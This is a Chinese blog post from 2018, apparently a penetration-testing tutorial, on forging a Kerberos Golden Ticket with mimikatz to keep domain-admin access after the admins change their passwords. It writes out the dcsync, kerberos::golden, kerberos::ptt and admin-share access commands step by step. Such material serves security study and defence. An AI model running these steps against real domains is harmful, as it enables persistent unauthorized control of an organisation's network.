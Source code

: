 ```yaml
---
layout: post
title: Pass the Ticket——Goldenn Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)  
图片来源于:https://image.slidesharecdn.com



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  

### \#0x02 获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

### \#0x03 伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/create%20tgt_1.jpg?raw=true)  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20tgt_1.jpg?raw=true)  

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
